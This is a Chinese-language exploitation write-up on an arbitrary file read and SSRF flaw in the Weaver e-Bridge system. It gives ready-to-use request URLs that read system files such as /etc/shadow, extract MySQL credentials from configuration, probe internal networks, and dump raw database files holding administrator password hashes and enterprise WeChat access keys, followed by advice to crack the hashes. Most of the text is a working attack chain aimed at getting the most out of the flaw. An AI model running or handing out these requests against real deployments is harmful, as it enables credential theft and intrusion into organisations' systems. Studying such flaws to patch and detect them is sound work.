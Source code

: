 # 0.前言

最近碰到了一个泛微云桥的系统，然后发现这个系统存在任意文件读取漏洞，但是目标是Windows的系统。



记录一下，如何把这个漏洞利用最大化



漏洞POC

 `http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///c://windows/win.ini&fileExt=txt`

取出ID

![image-20210513101515267](images/image-20210513101515267.png)

然后通过URL访问文件内容

`http://1.1.1.1:8088/file/fileNoLogin/4dae2e3fdecc46d3a07279383273ba6f`

![image-20210513101616951](images/image-20210513101616951.png)

# 1.读文件

首先读取常规文件，linux下的`/etc/shadow`

其次可以读取项目配置文件，获取mysql账号密码

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///d://ebridge/tomcat/webapps/ROOT/WEB-INF/classes/init.properties&fileExt=a.txt`



![image-20210513102214150](images/image-20210513102214150.png)

# 2.SSRF

这里除了是本地任意文件读取外，同样也支持http协议，并且可回显,在没有什么其他突破方式的情况下，可以通过这个探测内网

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=http://127.0.0.1&fileExt=a.txt`

![image-20210513102337047](images/image-20210513102337047.png)

# 3.读后台管理密码哈希

泛微云桥的后台密码是存储在，此系统自带的MySQL中的`ewechat.wx_base_user`表中,储存路径相对固定。

可以通过直接读取mysql原始数据文件的方式，来获取密码hash

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D://ebridge/mysql/data/ewechat/wx_base_user.ibd&fileExt=a.txt`

sysadmin后面的就是管理员密码哈希

![image-20210513102941001](images/image-20210513102941001.png)

但是通过对泛微云桥代码进行审计，除了系统刚开始的默认密码1是通过md5进行储存的

![image-20210513103217206](images/image-20210513103217206.png)

只要修改了后台密码，密码则是通过国密进行hash运算。获取hash后，可以考虑在本地进行破解

![image-20210513103344520](images/image-20210513103344520.png)



# 4.读企业微信AK



泛微云桥是一个可以连通企业微信号和钉钉号、飞书的一款应用。如果管理员配置了微信的ak的话，可以通过读取数据表来获取

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D://ebridge/mysql/data/ewechat/wx_cp_corpinfo.ibd&fileExt=a.txt`



![image-20210513103857509](images/image-20210513103857509.png)

